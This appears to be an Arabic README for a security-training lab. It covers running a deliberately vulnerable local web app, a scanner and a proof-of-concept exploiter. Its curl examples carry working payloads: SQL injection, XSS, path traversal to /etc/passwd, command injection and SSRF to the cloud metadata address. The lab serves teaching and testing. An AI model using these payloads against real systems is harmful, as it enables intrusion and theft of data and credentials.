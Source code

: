 ### تشغيل كامل تلقائي (أمر واحد)
- `python complete_demonstration.py`
- يقوم بتشغيل التطبيق الضعيف، ثم المسح، ثم محاولة الاستغلال، ثم توليد التقارير.

### تشغيل متتابع يدوي
- تثبيت الاعتماديات:
  - `pip install -r requirements.txt`
  - `pip install -r requirements_vulnerable.txt`
- تشغيل التطبيق الضعيف:
  - `python vulnerable_app.py` ثم افتح `http://127.0.0.1:5000`
- تشغيل الماسح:
  - `python web_scanner.py -v -o scan_report.json http://127.0.0.1:5000`
- اختبار الاستغلال:
  - `python poc_exploiter.py --timeout 10 -o exploitation_report.json http://127.0.0.1:5000`
- عرض الروابط الضعيفة:
  - `python vulnerable_urls_list.py`
  - `python infected_links_summary.py`
  - `python quick_reference.py`
- تلخيص النتائج:
  - الملفات الناتجة: `scan_report.json`, `exploitation_report.json`, `vulnerable_urls_complete.json`, `poc_summary_report.json`

### ملاحظات
- يفضّل استخدام بيئة افتراضية (`venv`) للتجربة.
- أدوات Lua اختيارية وتحتاج تثبيت مفسّر Lua.
- استخدم الأدوات بشكل أخلاقي وعلى بيئات مأذون بها فقط.

## جدول تلخيص الأوامر السريعة

| الأداة | الأمر الأساسي | الخيارات الشائعة | المثال |
|--------|---------------|------------------|--------|
| **الماسح الرئيسي** | `python web_scanner.py [URL]` | `-v` (مفصل)، `-o [ملف]`، `--timeout [ثواني]` | `python web_scanner.py -v -o report.json https://example.com` |
| **أداة الاستغلال** | `python poc_exploiter.py [URL]` | `--timeout [ثواني]`، `-o [ملف]` | `python poc_exploiter.py --timeout 10 http://127.0.0.1:5000` |
| **التطبيق الضعيف** | `python vulnerable_app.py` | لا يحتاج خيارات | `python vulnerable_app.py` (يفتح http://127.0.0.1:5000) |
| **العرض التوضيحي الكامل** | `python complete_demonstration.py` | لا يحتاج خيارات | `python complete_demonstration.py` |
| **قائمة الروابط الضعيفة** | `python vulnerable_urls_list.py` | لا يحتاج خيارات | `python vulnerable_urls_list.py` |
| **ملخص الروابط المصابة** | `python infected_links_summary.py` | لا يحتاج خيارات | `python infected_links_summary.py` |
| **المرجع السريع** | `python quick_reference.py` | لا يحتاج خيارات | `python quick_reference.py` |
| **تلخيص إثبات المفهوم** | `python poc_summary.py` | لا يحتاج خيارات | `python poc_summary.py` |

### أوامر التثبيت السريعة
```bash
# تثبيت جميع الاعتماديات
pip install -r requirements.txt
pip install -r requirements_vulnerable.txt

# أوامر curl للاختبار السريع (ضد التطبيق الضعيف)
curl "http://127.0.0.1:5000/user?id=1' UNION SELECT 1,2,3,4--"
curl "http://127.0.0.1:5000/search?q=<script>alert('XSS')</script>"
curl "http://127.0.0.1:5000/include?file=../../../../etc/passwd"
curl "http://127.0.0.1:5000/execute?cmd=id;whoami"
curl "http://127.0.0.1:5000/fetch?url=http://169.254.169.254/latest/meta-data/"
```
